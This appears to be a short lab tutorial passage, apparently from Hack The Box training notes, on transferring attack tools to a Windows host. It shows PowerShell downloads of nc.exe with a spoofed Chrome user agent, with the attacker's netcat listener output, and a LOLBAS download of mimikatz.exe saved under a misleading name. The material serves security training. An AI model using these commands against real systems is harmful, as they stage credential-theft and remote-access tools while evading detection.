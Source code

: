 ## Changing User Agent
#### Listing out User Agents
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

#### Request with Chrome User Agent
```powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

```sh
$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

#### Transferring File with GfxDownloadWrapper.exe
* Find more download binaries with LOLBAS / GTFOBins 

```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```


